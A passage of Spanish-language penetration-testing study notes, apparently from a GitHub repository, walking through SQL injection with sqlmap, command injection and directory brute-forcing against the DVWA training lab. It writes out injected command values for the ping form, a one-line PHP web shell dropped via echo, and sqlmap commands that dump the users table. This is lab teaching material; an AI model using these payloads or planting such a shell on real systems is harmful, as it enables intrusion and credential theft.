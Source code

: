 La herramienta sqlmap nos permite automatizar este proceso y hacerlo de manera más silenciosa. 
- Formas de uso:
    - URL como parámetro
        - Vemos que en la MV en la que estamos haciendo las pruebas, las consultas se pasan por parámetros a través del método GET (podemos verlo en la URL). Para usar la URL como parámetro basta con realizar una consulta básica y copiar la URL.
        - Pero si recordamos para acceder a esta MV necesitamos logearnos como admin. Por tanto para que el sqlmap funcione vamos a necesitar copiarnos las cookies de la sesión de alguna forma. Para ello, abrimos las herramientas de desarrollador del navegador, en la pestaña de Network cogemos la petición y en la sección headers copiamos la cabecera "Cookie". Esto también se puede realizar a través de un proxy inverso. 
        - Con todo esto ejecutaríamos el siguiente comando en una terminal: `sqlmap -u "<URL>" --headers "<Cookie>"` y nos devolvería un listado de vulnerabilidades. Si le añadimos la opción `--dbs` nos muestra las bases de datos que contiene, si ponemos `-D dvwa --tables` nos dirá las tablas de la BD "dvwa", si ponemos `-D dvwa -T users --dump` nos extrae la tabla usuarios de la BD dvwa.
    - Fichero con la petición
        - Lo anterior se puede simplificar si mediante un proxy inverso capturamos la consulta, nos copiamos la petición y sus cabeceras a un archivo "peticion.txt" y ejecutamos `sqlmap -r peticion.txt` 

 #### RCE : Remote Command Execution

 Esta vulnerabilidad permite ejecutar comandos del sistema en la máquina que aloja la web. 
 
 ¿Qué puede suponer esta vulnerabilidad?
 - Control del servidor
 - Obtención y modificación del código fuente
 - Pivotaje a red interna
 - Etc...

 Ejemplo (en la plataforma DVWA > Command Execution): nos permite insertar una ip a la que se le hará ping pero si en lugar de pasarle una IP le pasamos los siguientes comandos:
 - `;ls` - vemos los archivos
 - `; cat source/low.php` - vemos el código fuente
 - `; ip addr` - vemos su tarjeta de red 
 - `; echo '<?php echo shell_exec($_GET["cmd"]); ?>' > shell1.php` - con esto creamos un archivo php que ejecutará el comando que le pasemos (cmd) por parámetro. Si lo insertamos en la web vemos que no se produce ningún cambio, pero si cambiamos la URL a "IP/dvwa/vulnerabilities/exec/shell1.php" vemos que el archivo existe (porque no nos da error). Si a esta URL le pasamos como parámetro el cmd así "../shell1.php?cmd=ls" nos lo ejecutará. 

 #### URL Bruteforcing: GoBuster y DirBuster

 El objetivo de este ataque es el de descubrir y acceder a archivos que no se quieran enseñar. El ejemplo más sencillo es con el archivo "robots.txt" donde le indicamos qué archivos no queremos indexar. Para ello disponemos de 2 herramientas: OWASP DirBuster y GoBuster (consola). 

 Con DirBuster basta con pasarle una URL y darle a ejecutar en la interfaz gráfica para que nos empiece a enseñar archivos del servidor web. Con GoBuster ejecutaríamos `gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt"` para que nos ataque a esta web con el diccionario que le pasamos. 